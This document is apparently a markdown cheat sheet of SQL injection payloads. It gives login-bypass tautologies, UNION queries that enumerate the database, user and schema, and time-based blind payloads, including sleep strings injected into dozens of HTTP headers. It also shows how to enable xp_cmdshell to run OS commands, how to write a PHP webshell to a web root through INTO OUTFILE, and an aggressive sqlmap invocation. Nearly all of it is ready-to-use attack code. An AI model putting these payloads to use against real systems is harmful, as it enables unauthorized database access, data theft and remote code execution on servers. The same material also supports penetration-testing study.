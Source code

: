 # SQLi Payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

```
' or sleep(15) and 1=1#
' or sleep(15)#
' union select sleep(15),null#
```
  
```
1' waitfor delay  '0:0:30' - 
```
Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

```
%22)%20AND%201337%3dBENCHMARK(5000000,MD5(0x774c5341))%20AND%20(%221337%22%20LIKE%20%221337
```

```
ADD THESE HEADERS TO YOUR WEB REQUESTS
 
If the SQL injection works, there will be a 30sec delay between the request and response!
 
HEADERS: 
Accept: "' or sleep(30)='"
Accept-Charset: "' or sleep(30)='"
Accept-Datetime: "' or sleep(30)='"
Accept-Encoding: "' or sleep(30)='"
Accept-Language: "' or sleep(30)='"
Authorization: "' or sleep(30)='"
Cache-Control: "' or sleep(30)='"
Connection: "' or sleep(30)='"
Content-Length: "' or sleep(30)='"
Content-MD5: "' or sleep(30)='"
Content-Type: "' or sleep(30)='"
Cookie: "' or sleep(30)='"
Date: "' or sleep(30)='"
Expect: "' or sleep(30)='"
Forwarded: "' or sleep(30)='"
From: "' or sleep(30)='"
If-Match: "' or sleep(30)='"
If-Modified-Since: "' or sleep(30)='"
If-None-Match: "' or sleep(30)='"
If-Range: "' or sleep(30)='"
If-Unmodified-Since: "' or sleep(30)='"
Max-Forwards: "' or sleep(30)='"
Origin: "' or sleep(30)='"
Pragma: "' or sleep(30)='"
Proxy-Authorization: "' or sleep(30)='"
Range: "' or sleep(30)='"
Referer: "' or sleep(30)='"
TE: "' or sleep(30)='"
Upgrade: "' or sleep(30)='"
User-Agent: "' or sleep(30)='"
Via: "' or sleep(30)='"
Warning: "' or sleep(30)='"
X-Client-IP: "' or sleep(30)='"
X-Remote-IP: "' or sleep(30)='"
X-Remote-Addr: "' or sleep(30)='"
X-Forwarded-For: "' or sleep(30)='"
X-Originating-IP: "' or sleep(30)='"
X-Host: "' or sleep(30)='"
X-Forwarded-Host: "' or sleep(30)='"
```

```
sqlmap -u "https://www[.]example[.]com/something/thing/filter-thing.php?vulnerable-param=123& another-param=123" --dbs --level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
```

```
--dbs --level=5 --risk=3 --random-agent --user-agent -v3 
```

```
--batch --threads=10 --dbs
```



